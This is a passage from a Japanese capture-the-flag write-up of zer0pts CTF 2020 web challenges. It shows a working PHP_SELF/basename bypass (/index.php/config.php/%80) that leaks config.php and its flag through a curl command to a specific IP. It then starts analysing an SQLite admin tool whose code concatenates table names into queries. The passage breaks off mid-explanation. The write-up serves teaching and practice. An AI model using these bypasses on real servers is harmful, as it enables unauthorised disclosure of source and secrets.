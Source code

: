 ```
131: config.php
132: config.php
︙
```

`/index.php/config.php/%80` で最初のチェックをすり抜けながら `basename` の返り値を `config.php` にさせることができました。これを利用して、`http://3.112.201.75:8003/index.php/config.php/%80?source` にアクセスするとフラグが得られます。

```
$ curl http://3.112.201.75:8003/index.php/config.php/%80?source
<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br />define</span><span style="color: #007700">(</span><span style="color: #DD0000">'FLAG'</span><span style="color: #007700">,&nbsp;</span><span style="color: #DD0000">'zer0pts{gu3ss1ng_r4nd0m_by73s_1s_un1n73nd3d_s0lu710n}'</span><span style="color: #007700">);</span>
</span>
</code>
```

```
zer0pts{gu3ss1ng_r4nd0m_by73s_1s_un1n73nd3d_s0lu710n}
```

---

最終的な正答チーム数は 44 チームで、最初に解いたチームは KUDoS でした。難易度は warmup としていますが、これより少し難しい easy としていた同じ Web カテゴリの notepad の方が少し多く解かれていました。もし `if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) { … }` をなくしていたらどれぐらいのチームに解かれていたのか気になります。

PHP 問です。フラグに書かれている通り、`random_bytes(64)` を当てることは想定していません。できたらこわいです。

## [Web 755] phpNantokaAdmin
> **phpNantokaAdmin** is a management tool for SQLite.
> 
> Challenge (URL)
> 
> 添付ファイル: [phpNantokaAdmin_49b112bf908ecef40f17684f4120b0aa.tar.gz](../files/20200309-zer0pts-ctf-2020/phpNantokaAdmin_49b112bf908ecef40f17684f4120b0aa.tar.gz)

SQLite のデータベースを管理できるツールです。実装されている機能はテーブルの作成、表示、レコードの挿入のみです。まずはフラグがどこにあるか確認しましょう。

```php
<?php
︙
  $pdo->query('CREATE TABLE `' . FLAG_TABLE . '` (`' . FLAG_COLUMN . '` TEXT);');
  $pdo->query('INSERT INTO `' . FLAG_TABLE . '` VALUES ("' . FLAG . '");');
  $pdo->query($sql);
︙
```

テーブルの作成時に、ついでにフラグが格納されたテーブルが作られています。テーブル名とカラム名は `config.php` で定義された定数が使われています。なお、

```php
<?php
︙
  $pdo = new PDO('sqlite:db/' . $_SESSION['database']);
  $stmt = $pdo->query("SELECT name FROM sqlite_master WHERE type='table' AND name <> '" . FLAG_TABLE . "' LIMIT 1;");
  $table_name = $stmt->fetch(PDO::FETCH_ASSOC)['name'];

  $stmt = $pdo->query("PRAGMA table_info(`{$table_name}`);");
  $column_names = $stmt->fetchAll(PDO::FETCH_ASSOC);
︙
```
